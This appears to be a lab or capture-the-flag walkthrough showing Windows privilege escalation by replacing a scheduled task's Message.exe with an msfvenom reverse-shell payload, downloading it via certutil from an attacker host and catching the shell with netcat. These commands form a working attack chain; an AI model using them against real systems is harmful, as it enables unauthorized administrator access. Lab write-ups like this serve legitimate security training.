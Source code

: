 ### Exploiting the Scheduled Task
Navigate to the `SystemScheduler` directory:
```cmd
cd C:\Program Files (x86)\SystemScheduler
dir
```

**Output**:
```
08/18/2025  11:55 AM    <DIR>          Events
08/18/2025  11:55 AM             7,168 Message.exe
...
```

Navigate to the `Events` directory and inspect the `20198415519.INI_LOG.txt` file:
```cmd
cd Events
more 20198415519.INI_LOG.txt
```

**Output**:
```
08/04/19 15:06:01,Event Started Ok, (Administrator)
08/04/19 15:06:30,Process Ended. PID:2608,ExitCode:1,Message.exe (Administrator)
...
```

The log shows `Message.exe` runs every 26 minutes as Administrator.

### Creating a Reverse Shell
1. Generate a reverse shell payload to replace `Message.exe`:
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.145.45 LPORT=8888 -f exe > Message.exe
   ```

2. Host the payload on your attacking machine:
   ```bash
   python3 -m http.server 8000
   ```

3. Download the payload to the victim machine:
   ```cmd
   certutil.exe -urlcache -f http://10.11.145.45:8000/Message.exe Message.exe
   ```

   ```
   ****  Online  ****
   CertUtil: -URLCache command completed successfully.
   ```

4. Set up a Netcat listener on your attacking machine:
   ```bash
   nc -nlvp 8888
   ```

5. Wait for the scheduled task to execute `Message.exe`. This triggers the reverse shell:

   ```
   listening on [any] 8888 ...
   connect to [10.11.145.45] from (UNKNOWN) [10.10.222.220] 49323
   Microsoft Windows [Version 6.3.9600]
   (c) 2013 Microsoft Corporation. All rights reserved.
   C:\PROGRA~2\SYSTEM~1>
   ```
